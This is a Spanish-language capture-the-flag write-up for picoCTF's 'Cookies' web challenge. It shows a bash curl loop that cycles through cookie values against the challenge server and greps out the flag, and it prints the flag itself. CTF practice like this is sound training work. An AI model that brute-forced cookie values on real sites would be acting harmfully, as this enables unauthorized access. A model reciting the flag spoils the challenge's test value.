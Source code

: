 # Descripción
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:29649/](http://mercury.picoctf.net:29649/)
# Solución
En nuestra máquina virtual abrimos la página para ver los resultados 
- Si usamos la  opción que nos indica nos permitirá pasar pero no nos dará la bandera
- Entonces en nuestra terminal usaremos un for junto con un grep para encontrar el valor que tiene la cookie con nuestra bandera, así como también obtenerla
- Se muestra el ejemplo en lo siguiente:
```

┌──(kali㉿kali)-[~]
└─$ for i in {0..20}; do curl -s http://mercury.picoctf.net:29649/check -H "Cookie: name=$i"; done | grep picoCTF
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}</code></p>

picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}
```
# Notas adicionales
# Referencias
- https://www.youtube.com/watch?v=LseQ-XWCXVo&list=PLDo9DMLZyP6kTZ8Td37-LdbAx4-yNfHBl&index=12